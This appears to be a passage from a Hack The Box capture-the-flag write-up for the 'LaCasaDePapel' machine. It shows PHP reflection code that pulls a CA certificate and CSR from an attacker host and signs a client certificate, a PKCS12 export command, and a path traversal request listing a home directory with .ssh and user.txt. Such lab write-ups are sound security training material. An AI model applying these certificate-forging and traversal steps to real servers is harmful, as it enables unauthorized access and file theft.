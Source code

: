 ```
$ca = file_get_contents("http://10.10.16.66:8000/ca.crt")
$user = file_get_contents("http://10.10.16.66:8000/xct.csr")
$c = new ReflectionClass($tokyo)
$m = $c->getMethod('sign')
$m->setAccessible(true)
$m->invoke($tokyo, $ca, $user)
```

```
-----BEGIN CERTIFICATE-----
MIICvjCCAaagAwIBAgIBADANBgkqhkiG9w0BAQsFADA3MRowGAYDVQQDDBFsYWNh
c2FkZXBhcGVsLmh0YjEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDAeFw0xOTA0
MTMxMjI1NDhaFw0yMDA0MTIxMjI1NDhaMA4xDDAKBgNVBAMMA3hjdDCCASIwDQYJ
KoZIhvcNAQEBBQADggEPADCCAQoCggEBAOoIP00Yl9c0YelThgEMfh7YFSkTGa2R
h9LRVF8Pt00Srq5LQIqCWkiSko03DMpv5r8Jc+2wu7hpCPG70KuIkNS9ldloCOJ5
wcUEx4EiMoLEMCYS9KEG7z3PwyXUIwI8MsKArH0d9uPWqCZXg4uGqtNIi8SoDMiF
ueiFJh5XHvw3YQc2z/cX48yhHi9tAqZowlOYg3oaF3liqQQO9VsgCp3xuQRrCNIW
KhbaGSYXzDFvSoN7kRr0RTxYpjM92Sie/mYWcdKa4AkplmonLFajRaEBeWsQxYAU
s6eUmsgDyyzj+jPFrF68NvBg6Lw+3YM34bsJsxc1/cgx9A8ObXaMedECAwEAATAN
BgkqhkiG9w0BAQsFAAOCAQEAdTMJrHhyu4c9DEN7YA39XhOfqM7mLuo8e5Epbi2b
0MSfrx3TwhddEet3BRC64VGYebcNZJRxB6O8n5bTAy9Tpk/321PqOB3TA173K0w4
PUm7/5KNZY23fmHRcO5rbtFWV4te5XNu8hZayeuB5NS5fr2EH0MvLkGNzybDAZcq
UnKeYBXx2IeELtY6SGkVgddMITHuLFBJOTgDFXpOtGklhD3utyryAsMXxXPisL3j
m39aggnj56sNn/mZJmh2VjRGd3HOdClNAbl2W0kirayVKnjULC57goDWYlGbOBoK
q+1mtacjxQmVaQJ4i56VsCyRaY4DnnemwfPC9/jkB5n/QQ==
-----END CERTIFICATE-----
```

We can convert this certificate to pkcs12 (`openssl pkcs12 -export -clcerts -in signed.cert -inkey xct.priv -out xct.p12`) and import it into firefox (Privacy &Security->View Certificates->Import) and finally load the site that hides behind it:

![](htb_lasadepapel_privatesite.png)

We see that the season downloader is vulnerable to a simple path traversal:

```
https://10.10.10.131/?path=../

    .ash_history
    .ssh
    downloads
    node_modules
    server.js
    user.txt
```

This however just allows to list files not download them. When we go back to the "normal" season downloader we see that it requests files with a base64 encoded path:

```
https://10.10.10.131/file/U0VBU09OLTEvMDEuYXZp

➜  echo -ne "U0VBU09OLTEvMDEuYXZp" | base64 -d
SEASON-1/01.avi%
```
